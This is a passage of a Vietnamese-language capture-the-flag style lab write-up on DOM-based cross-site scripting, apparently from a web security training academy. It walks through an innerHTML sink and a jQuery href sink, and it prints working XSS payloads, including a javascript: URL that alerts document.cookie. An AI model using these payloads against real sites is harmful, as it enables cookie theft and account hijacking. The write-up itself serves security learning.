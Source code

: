    ```
  - check script tag trên chức năng search thì có vẻ script tag không được thực thi vì đây là innerHTML sink có cơ chế bảo vệ khỏi script tag
 
  - document write sink thì không
 
  => có cách nào để chèn tag mà có thể thực thi được không ? có

  => sink trong này là

  ```
     <script>
                            function doSearchQuery(query) {
                                document.getElementById('searchMessage').innerHTML = query;
                            }
  ```
=> gây ra lỗ hổng dom xss

+ step 2: Exploit

  -payload:

  ```
   <img src=x onerror = alert()>
  ```

![345507700-1ab360fb-de03-407e-ab5e-2628979d1847](https://github.com/user-attachments/assets/56f0ebad-eab8-491e-b1e4-327b083637ab)

=> solve lab 4 

# Lab 5: DOM XSS in jQuery anchor href attribute sink using location.search source

>  This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

> To solve this lab, make the "back" link alert document.cookie.

+ step 1 : Recon

```
$(function() {
                                $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
                            });
```
  
  - check dòng code jquery hàm function đang gọi # là id backlink herf là đường link trỏ về => ta có thể lợi dụng để chèn và returnpath herf

- jQuery là một thư viện JavaScript phổ biến, được thiết kế để đơn giản hóa việc viết mã JavaScript và tương tác với Document Object Model (DOM) của HTML. jQuery cung cấp nhiều tính năng giúp bạn dễ dàng xử lý các tác vụ phổ biến như thao tác DOM, xử lý sự kiện, hiệu ứng và Ajax.

+ step 2: Exploit

  - payload

    ```
     https://domain?returnPath=javascript:alert(document.cookie)
    ```
  
javascript:alert() là một cách sử dụng JavaScript để hiển thị một thông báo cảnh báo (alert) trên trình duyệt web
```